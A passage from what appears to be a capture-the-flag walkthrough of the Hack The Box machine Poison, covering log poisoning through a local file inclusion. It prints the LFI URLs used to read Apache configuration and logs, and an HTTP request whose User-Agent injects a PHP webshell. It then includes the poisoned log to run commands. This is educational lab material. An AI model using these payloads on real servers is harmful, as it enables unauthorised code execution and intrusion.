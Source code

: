 The simplest case would be to change our user-agent string such that it includes php, and then include that log file with our LFI. We could also poison the url field, but visiting something like . As long as we can get our php written into the log, we will succeed.`http://10.10.10.84/browse.php?not_an_arg=[php code]`

#### Finding the Logs

If the user attempts to grab a file that doesn’t exist, there’s an error page that looks like this: ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fpoison_error.png)

This reveals the path to the current wwwroot as: `/usr/local/www/apache24/data/browse.php`

Next, we’ll want to find the file, which will tell us where the log files are located. We’ll find that at , and if we get that file (using the url ), we’ll see the locations of the access and error logs:`httpd.conf``/usr/local/etc/apache24/httpd.conf``http://10.10.10.84/browse.php?file=/usr/local/etc/apache24/httpd.conf`

    ErrorLog "/var/log/httpd-error.log"
    CustomLog "/var/log/httpd-access.log" combined
    

#### Log Poisoning

Lines in our access log look like this:

    10.10.14.4 - - [19/Mar/2018:13:28:50 +0100] "GET /HNAP1 HTTP/1.1" 404 203 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
    

We’ll modify our user-agent using burp to add a webshell. I always like to add a marker here (like “0xdf:”), so that as the log file grows, we can easily locate our output, either with ctrl-f, or using curl and grep.

    GET / HTTP/1.1
    Host: 10.10.10.84
    User-Agent: 0xdf: <?php system($_GET['c']); ?>
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    

Then visit: `http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&c=id`

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fpoison_poisoned.png)

## Reverse Shell

Just like we didn’t need the webshell, we don’t really need a reverse shell to complete Poison. Even if we hadn’t found with , we still could find it now running in our webshell. Still, the fun of HTB is getting shells, so let’s get one with this web shell.`pwdbackup.txt``listfiles.php``ls`

### Check Connectivity
